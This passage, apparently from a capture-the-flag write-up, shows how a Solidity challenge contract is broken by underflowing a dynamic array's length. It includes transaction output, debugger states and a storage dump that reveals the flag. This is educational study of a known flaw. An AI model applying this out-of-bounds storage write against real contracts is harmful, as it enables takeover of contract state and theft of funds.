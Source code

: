 ```
from 	0x14723a09acff6d2a60dcdf7aa4aff308fddc160c
to 	test.getFLAG() 0x1459b55e171400dfbf69f834fa6e80232b014ce8
transaction cost 	21746 gas (Cost only applies when called by a contract)
execution cost 	474 gas (Cost only applies when called by a contract)
input 	0xa979cafe
decoded input 	{}
decoded output 	{
"0": "string: "
}
```

Because of the `0x14723a09acff6d2a60dcdf7aa4aff308fddc160c` is not the manager so it failed as we expected. When we try to call `popX`, the array then the variables are look like this (debugging mode),

```
manager: 0xCA35B7D915458EF540ADE6068DFE2F44E8FA733C address
FLAG: "hackability{4rr4y l3n67h und3rfl0w 15 fun}" string
x: uint256[]
    length: 1
    0: 32 uint256
```

The array `x` has 1 element. Nothing special. But, when we call the `popX` twice, the underflow is happened.

```
manager: 0xCA35B7D915458EF540ADE6068DFE2F44E8FA733C address
FLAG: "hackability{4rr4y l3n67h und3rfl0w 15 fun}" string
x: uint256[]
length: 115792089237316195423570985008687907853269984665640564039457584007913129639935
    0: 0 uint256
    1: 0 uint256
    2: 0 uint256
    3: 0 uint256
    4: 0 uint256
    5: 0 uint256
```

Yes! The array `x` is underflowed and its length is 115792089237316195423570985008687907853269984665640564039457584007913129639935 (2^256-1). This is usual step out-of-bound read/write to exploit something and we can read/write any memory with the array `x`.

In EVM, we can't touch the virtual system address (such as library address or heap address) because they use their custom memory map and we sandboxed in their memory map structure. However, the other variables in the contract are also landed in the same EVM address structure. So, we can touch them with the array `x`. LOL!

At this point, when we look at the storage, it looks like

```
0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563: Object
    key: 0x0000000000000000000000000000000000000000000000000000000000000000
    value: 0xca35b7d915458ef540ade6068dfe2f44e8fa733c
0xea7809e925a8989e20c901c4c1da82f0ba29b26797760d445a0ce4cf3c6fbd31: Object
    key: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf7
    value: 0x30772031352066756e7d00000000000000000000000000000000000000000000
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6: Object
    key: 0x0000000000000000000000000000000000000000000000000000000000000001
    value: 0x55
0xb5d9d894133a730aa651ef62d26b0ffa846233c74177a591a4a896adfda97d22: Object
    key: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
    value: 0x6861636b6162696c6974797b3472723479206c336e36376820756e643372666c
0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace: Object
    key: 0x0000000000000000000000000000000000000000000000000000000000000002
    value: 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```
